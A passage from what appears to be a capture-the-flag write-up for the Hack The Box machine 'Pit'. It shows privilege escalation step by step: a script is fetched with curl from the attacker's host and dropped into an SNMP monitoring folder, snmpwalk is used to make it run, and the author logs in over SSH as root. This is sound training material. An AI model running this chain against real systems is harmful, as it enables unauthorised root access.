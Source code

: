 ```text
[michelle@pit ~]$ curl http://10.10.14.22/check.sh -o checkss.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   600  100   600    0     0  12244      0 --:--:-- --:--:-- --:--:-- 12244
```

Note this is a shared box, so other users are probably putting similarly named files on there. To make sure my file isn't overwritten I've put a double ss in the name.

Now we can copy the file to the monitoring folder:

```text
[michelle@pit ~]$ cp checkss.sh /usr/local/monitoring/
```

Now we need to call the OID related to the monitor script with snmpwalk again to get it to execute:

```text
┌──(root💀kali)-[~/htb/pit]
└─# snmpwalk -c public -v2c 10.10.10.241 .1.3.6.1.4.1.8072.1.3.2
iso.3.6.1.4.1.8072.1.3.2.1.0 = INTEGER: 1
iso.3.6.1.4.1.8072.1.3.2.2.1.2.10.109.111.110.105.116.111.114.105.110.103 = STRING: "/usr/bin/monitor"
iso.3.6.1.4.1.8072.1.3.2.2.1.3.10.109.111.110.105.116.111.114.105.110.103 = ""
iso.3.6.1.4.1.8072.1.3.2.2.1.4.10.109.111.110.105.116.111.114.105.110.103 = ""
iso.3.6.1.4.1.8072.1.3.2.2.1.5.10.109.111.110.105.116.111.114.105.110.103 = INTEGER: 5
iso.3.6.1.4.1.8072.1.3.2.2.1.6.10.109.111.110.105.116.111.114.105.110.103 = INTEGER: 1
iso.3.6.1.4.1.8072.1.3.2.2.1.7.10.109.111.110.105.116.111.114.105.110.103 = INTEGER: 1
iso.3.6.1.4.1.8072.1.3.2.2.1.20.10.109.111.110.105.116.111.114.105.110.103 = INTEGER: 4
iso.3.6.1.4.1.8072.1.3.2.2.1.21.10.109.111.110.105.116.111.114.105.110.103 = INTEGER: 1
iso.3.6.1.4.1.8072.1.3.2.3.1.1.10.109.111.110.105.116.111.114.105.110.103 = STRING: "Memory usage"
iso.3.6.1.4.1.8072.1.3.2.3.1.2.10.109.111.110.105.116.111.114.105.110.103 = STRING: "Memory usage
              total        used        free      shared  buff/cache   available
Mem:          3.8Gi       551Mi       2.7Gi        32Mi       569Mi       3.0Gi
Swap:         1.9Gi          0B       1.9Gi
Database status
OK - Connection to database successful.
```

## Root Flag

If that worked we should now be able to ssh in as root:

```text
┌──(root💀kali)-[~/htb/pit]
└─# ssh -i id_rsa root@pit.htb                                 
Web console: https://pit.htb:9090/

Last login: Sat Sep 25 13:57:20 2021 from 10.10.14.96
[root@pit ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

We're in, let's grab the root flag:
